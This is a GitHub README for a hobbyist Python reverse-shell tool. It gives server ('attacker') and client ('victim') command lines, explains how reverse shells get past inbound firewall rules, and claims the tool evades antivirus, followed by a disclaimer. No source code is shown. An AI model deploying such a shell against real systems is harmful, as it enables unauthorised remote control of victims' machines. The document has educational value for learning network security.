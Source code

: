 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Python/blob/master/Reverse_shell/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

## To run as a server:
```
  python3 rshell.py -m server -p port_number
```
## To run as a client:
```
  python3 rshell.py -m client -t server_ip_address -p server_port_number
```
# Well, so how does it work?

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the port hosted by the server.

Unlike normal shells or also known as "bind shell", in which an innocent server simply allow an user to connect and the malicous user client can send payloads to attack the server node, in reverse shell, the server program acts as a malicous endpoint and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the in-bound policy can be set relatively loosely or set with no in-bound policy at all so that client can easily access to the server, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



## Bind Shell:
```
Server (Victim) ---------|Firewall|<<---------Client (Attacker)
```
It is easy to fail to make connection if an out-bound policy of firewall is well set.

## Reverse Shell:
```
Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)
```
Attacker set no in-bound policy so that victims can freely connect to the trap server.

So, a reverse shell is just a shell that exploits common firewall's nature.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.


# A Very Long Disclaimer: 

I am not responsible for any real / potential damage caused by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.




